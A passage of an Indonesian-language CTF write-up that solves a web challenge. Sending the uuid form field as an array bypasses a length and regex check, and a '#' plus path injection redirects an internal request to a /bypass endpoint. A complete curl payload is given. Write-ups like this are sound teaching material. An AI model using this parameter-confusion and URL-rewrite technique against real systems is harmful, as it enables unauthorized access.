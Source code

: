 Pada potongan source code diatas kita bisa meliahat bahwa server akan mengecek parameter `uuid` tapi disini dia tidak mengecek apakah parameter`uuid` yang kita masukkan merupakan `string` atau bukan, sehingga kisa bisa membuat parameter `uuid` sebagai array dan membypass check yang ada pada source code diatas.

Setelah itu kita bisa me rewrite `requestURL` dan membuatnnya mengakses `/api/:uuid/bypass` untuk membuat `uuid` user kita menjadi `server:true` agar kita bisa mendapatkan flagnya.

```javascript
    app.get("/api/:uuid/bypass", async (req, res) => {
        try {
            const user = await Queue.findByPk(req.params.uuid);
            if (user === undefined) {
                res.send("uuid not found");
            } else {
                await user.update({served: true});
                res.send("bypassed");
            }
        } catch {
            res.send("invalid uuid");
        }

    });
```

#### Exploitation

Untuk mengeksploitasi ini kita harus melakukan request ke `flagserver` yaitu https://qu-flag.lac.tf/ setelah itu kita mengirimkan request yang didalamnya ada 36 post request `uuid` sebagai berikut untuk membypass `uuid.length != 36` dan juga regex.

```shell
curl -X POST https://qu-flag.lac.tf/ -d "uuid=e7d9cd88-ecfb-45c2-bea1-e1727a25f8b8/bypass#&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f" -H "Content-Type: application/x-www-form-urlencoded"
```

di parameter uuid pertama kita harus menyelipkan tanda `#` agar sisa dari payloadnya diabaikan oleh server, kita juga perlu menambahkan `e7d9cd88-ecfb-45c2-bea1-e1727a25f8b8/bypass` untuk melakukan request ke `/api/:uuid/bypass` dan men-set `serve` dari uuid kita tersebut menjadi true.

Jalankan curl diatas dan kembali ke https://qu-flag.lac.tf/ maka kita akan mendapatka flagnya

![](https://i.imgur.com/9E3w9mv.png)


## hptia - web
### Description

I made a new hyper-productive todo list app that limits you to 12 characters per item so you can stop wasting time writing overly intricate todo lists!

Check it out here: hptla.lac.tf
